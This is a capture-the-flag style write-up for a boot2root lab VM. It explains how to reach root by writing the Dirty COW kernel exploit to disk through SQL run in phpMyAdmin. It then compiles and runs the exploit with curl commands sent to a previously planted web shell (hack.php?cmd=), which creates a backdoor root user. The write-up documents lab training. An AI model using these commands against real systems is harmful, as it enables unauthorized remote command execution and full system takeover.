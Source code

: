 # Dirty COW through SQL Injection

## Intro

Following these instructions will get you the Holy Grail (the root, you know) using a very beautiful and very messy way:

![Bonus way #3](https://drive.google.com/uc?export=view&id=1KalcsuE9IKLSI64LeqLpWD9eoW4cftpo)

## How to start?

Need to do steps from [Main way #1](https://github.com/MrOnimus/42_boot2root/blob/master/writeup1) to start after access to cmd through get request.

## Generating an SQL query

After this we need to run SQL [script](https://github.com/MrOnimus/42_boot2root/blob/master/scripts/dirty_cow_sql_injection.sql) in phpMyAdmin.

Given script is a Dirty COW [exploit](https://www.exploit-db.com/exploits/40839) in form of the SQL injection script.
To comply with SQL formatting standards we've changed some symbols using this online [utility](http://www.unit-conversion.info/texttools/replace-text/). To be clear, we have made the following changes: " -> \\", ' -> \\', and \n -> \\\n .

As the lines ended with '\\' symbol and escaped symbols conflicted with each other, we couldn't compile file. 
We've worked this problem out with help of this [source](https://stackoverflow.com/questions/5268088/extra-backslash-when-select-into-outfile-in-mysql):

	LINES TERMINATED BY '\r\n'
	ESCAPED BY ''

## SQL injection execution

After that - compile and run exploit with:

	curl --insecure "https://192.168.56.102/forum/templates_c/hack.php?cmd=gcc%20-pthread%20exploit.c%20-o%20exploit%20-lcrypt"
	curl --insecure "https://192.168.56.102/forum/templates_c/hack.php?cmd=ls" # check if it correct compile
	curl --insecure "https://192.168.56.102/forum/templates_c/hack.php?cmd=./exploit%20123"

And we have `firefart` user with password 123 which is root. Now just go to the VM interface, and log in directly into `firefart` using password `123`. **You are root now!**
